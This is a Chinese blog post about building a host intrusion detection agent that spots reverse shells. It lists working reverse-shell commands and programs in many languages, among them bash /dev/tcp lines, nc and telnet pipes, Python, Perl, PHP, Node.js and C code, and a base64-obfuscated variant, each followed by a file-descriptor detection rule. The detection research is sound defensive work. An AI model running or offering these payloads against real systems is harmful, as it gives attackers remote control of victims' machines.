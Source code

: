 Title: HIDS-Agent开发之检测反弹shell
Date: 2018-08-16 20:20
Modified: 2018-08-16 20:20
Category: 安全
Tags: HIDS
Slug: S2
Authors: nJcx
Summary: HIDS-Agent开发之检测反弹shell ~


#### 介绍


```bash
bash -i >& /dev/tcp/127.0.0.1/1234 0>&1  #TCP

Listener:
nc -nvlp 1234

```

![agent](../images/WechatIMG53.jpeg)


目标机执行后的结果如下：

创建了一个常住进程“bash -i”， 它的得0和1文件描述符都指向socket。

匹配规则：bash进程的0，和1文件描述符指向socket


```bash

sh -i >& /dev/udp/127.0.0.1/1234 0>&1 #UDP

Listener:
nc -u -lvp 1234

```

![agent](../images/WechatIMG54.jpeg)


目标机执行后的结果如下：

创建了一个常住进程“sh -i”， 它的得0和1文件描述符都指向socket。

匹配规则：bash进程的0，和1文件描述符指向socket

```bash
0<&196;exec 196<>/dev/tcp/127.0.0.1/1234; sh <&196 >&196 2>&196

```
![agent](../images/WeChat9c018fc36b0256b4286d528e3e91651a.png)

```bash
exec 5<>/dev/tcp/127.0.0.1/1234; while read line 0<&5; do $line 2>&5 >&5; done

```

![agent](../images/WechatIMG56.jpeg)

```bash
nohup bash -c 'bash -i >& /dev/tcp/127.0.0.1/1234 0>&1'

base64搞一下命令

echo "nohup bash -c 'bash -i >& /dev/tcp/127.0.0.1/1234 0>&1'" | base64 -w0
echo bm9odXAgYmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMTIzNCAwPiYxJwo= | base64 -d | bash 2>/dev/null

```

![agent](../images/WechatIMG55.jpeg)






```bash
telnet 127.0.0.1 1234 | /bin/sh #Blind

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|telnet 127.0.0.1 1234 >/tmp/f

rm -f /tmp/bkpipe;mknod /tmp/bkpipe p;/bin/sh 0</tmp/bkpipe | telnet 127.0.0.1 1234 1>/tmp/bkpipe
```
![agent](../images/WechatIMG59.jpeg)
![agent](../images/WechatIMG60.jpeg)


```bash
telnet 127.0.0.1 1234 | /bin/bash | telnet 127.0.0.1 12345
```

![agent](../images/WechatIMG61.jpeg)


```perl
perl -e 'use Socket;$i="127.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"[127.0.0.1]:[1234]");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

```

![agent](../images/WechatIMG54.jpeg)


```python


export RHOST="127.0.0.1";export RPORT=1234;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```
![agent](../images/WechatIMG54.jpeg)


```php

php -r '$sock=fsockopen("127.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'


```


![agent](../images/WechatIMG54.jpeg)



```php
php -r 'exec("/bin/bash -i >& /dev/tcp/127.0.0.1/1234")'

```

![agent](../images/WechatIMG53.jpeg)


```ruby

ruby -rsocket -e'f=TCPSocket.open("127.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

```

![agent](../images/WechatIMG54.jpeg)



```bash

nc -e /bin/sh 127.0.0.1 1234

如果nc 不支持 -e

nc  127.0.0.1 1234 | /bin/sh #Blind
nc <ATTACKER-IP> <PORT1>| /bin/bash | nc <ATTACKER-IP> <PORT2>
rm -f /tmp/bkpipe;mknod /tmp/bkpipe p;/bin/sh 0</tmp/bkpipe | nc  127.0.0.1 1234 1>/tmp/bkpipe

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc  127.0.0.1 1234 >/tmp/f

```
![agent](../images/WechatIMG62.jpeg)
![agent](../images/WechatIMG63.jpeg)

目标机执行后的结果如下：

创建了bash进程，0和1描述符都指向了pipe，这两个pipe关联到文件和nc上。

匹配规则：bash进程的0，和1文件描述符指向pipe

```lua

lua -e "require('socket');require('os');t=socket.tcp();t:connect('127.0.0.1','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"

```

![agent](../images/WechatIMG54.jpeg)

目标机执行后的结果如下：

创建了sh进程，0和1描述符都指向了socket。

匹配规则：sh的0，和1文件描述符指向socket


Java

```java

r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

```
![agent](../images/WechatIMG56.jpeg)


Golang

```golang

echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","127.0.0.1:1234");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go

```
![agent](../images/WechatIMG64.jpeg)

Nodejs

```javascript


(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(1234, "127.0.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();

```

![agent](../images/WechatIMG66.jpeg)

目标机执行后的结果如下：
创建了sh进程，0和1描述符都指向了socket。

匹配规则：bash的0，和1文件描述符指向socket

```


require('child_process').exec('nc -e /bin/sh 127.0.0.1 1234')

or

-var x = global.process.mainModule.require
-x('child_process').exec('nc 127.0.0.1 1234 -e /bin/bash')


```

![agent](../images/WechatIMG63.jpeg)
目标机执行后的结果如下：

创建了bash进程，0和1描述符都指向了pipe，这两个pipe关联到nc进程上。nc创建了socket外联。

匹配规则：bash进程的0，和1文件描述符指向pipe


用openssl 反弹shell


攻击者

```bash

openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes #Generate certificate
openssl s_server -quiet -key key.pem -cert cert.pem -port <l_port> #Here you will be able to introduce the commands
openssl s_server -quiet -key key.pem -cert cert.pem -port <l_port2> #Here yo will be able to get the response

```

靶机

```bash

openssl s_client -quiet -connect 127.0.0.1:1234|/bin/bash|openssl s_client -quiet -connect 127.0.0.1:12345


```

![agent](../images/WeChat8872f342986ad270beb9f2cfed15620b.png)目标机执行后的结果如下：

创建了一个常住进程“bash”， 它的得0和1文件描述符都指向socket。

匹配规则：bash进程的0，和1文件描述符指向socket

```bash

awk 'BEGIN {s = "/inet/tcp/0/127.0.0.1/1234"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null

```

无明显文件句柄特征


```c

#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 1234;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("127.0.0.1");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);

    return 0;       
}

```

![agent](../images/WeChatb7a57e2e1c37e20c37bb206518c75d7a.png)


目标机执行后的结果如下：

创建了一个常住进程“sh ”， 它的得0和1文件描述符都指向socket。

匹配规则：sh进程的0，和1文件描述符指向socket



Don't forget to check with others shell : sh, ash, bsh, csh, ksh, zsh, pdksh, tcsh, bash





